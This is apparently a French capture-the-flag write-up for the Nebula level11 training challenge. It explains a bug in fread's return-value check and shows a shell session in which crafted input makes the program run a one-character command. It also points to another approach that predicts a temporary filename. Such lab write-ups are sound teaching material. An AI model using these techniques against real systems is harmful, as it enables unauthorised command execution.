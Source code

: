 La bonne blague dans le code vulnérable se trouve ici :

```c
  length = atoi(line + strlen(CL));
  
  if(length < sizeof(buf)) {
      if(fread(buf, length, 1, stdin) != length) {
          err(1, "fread length");
      }
      process(buf, length);
  } else {
```

`length` est la taille du buffer telle que spécifiée par l'entête `Content-Length`. Le code s'assure donc qu'on lise `length` octets seulement si on a assez de place. Jusque là tout va bien.

Seulement si le résultat du `fread` est différent de `length` nous n'atteignons jamais l'appel à `process`. Et là `fread` indique de lire 1 bloc de `length` octets. Le problème c'est que `fread` retourne le nombre de blocs lus... par conséquence il retourne toujours 1 !

On peut utiliser mon code pour faire exécuter une commande dont le nom est d'un caractère mais il faut que la chance mette un octet nul en mémoire après :

```bash
level11@nebula:/home/flag11$ cat > /tmp/a
#!/bin/bash
id 
dash
^C
level11@nebula:/home/flag11$ chmod 755 /tmp/a
level11@nebula:/home/flag11$ python /tmp/gen.py | ./flag11
sh: $'a\360\034': command not found
level11@nebula:/home/flag11$ python /tmp/gen.py | ./flag11
sh: $'a\300\225': command not found
level11@nebula:/home/flag11$ python /tmp/gen.py | ./flag11
uid=1012(level11) gid=1012(level11) groups=1012(level11)
```

Seconde déconvenue : l'exécutable est setuid mais il droppe les privilèges avant l'appel à système, ce qui n'était pas indiqué dans le code source...

Une autre solution vue dans les articles suivants :

[nebula-level11.md · GitHub](https://gist.github.com/graugans/88e6f54c862faec8b3d4bf5789ef0dd9)

[Nebula Walkthrough | Ayrx's Blog](https://www.ayrx.me/nebula-walkthrough/)

[nebula-writeup/level11.md at main · vi11ain/nebula-writeup · GitHub](https://github.com/vi11ain/nebula-writeup/blob/main/level11.md)

Elle consiste à entrer dans le bloc `else` en annoncant un buffer plus grand ou égal à 1024 octets et à essayer de prédire le nom de fichier généré dans la fonction `getrand` :

```c
int getrand(char **path)
{
  char *tmp;
  int pid;
  int fd;

  srandom(time(NULL));

  tmp = getenv("TEMP");
  pid = getpid();
  
  asprintf(path, "%s/%d.%c%c%c%c%c%c", tmp, pid,
      'A' + (random() % 26), '0' + (random() % 10),
      'a' + (random() % 26), 'A' + (random() % 26),
      '0' + (random() % 10), 'a' + (random() % 26));

```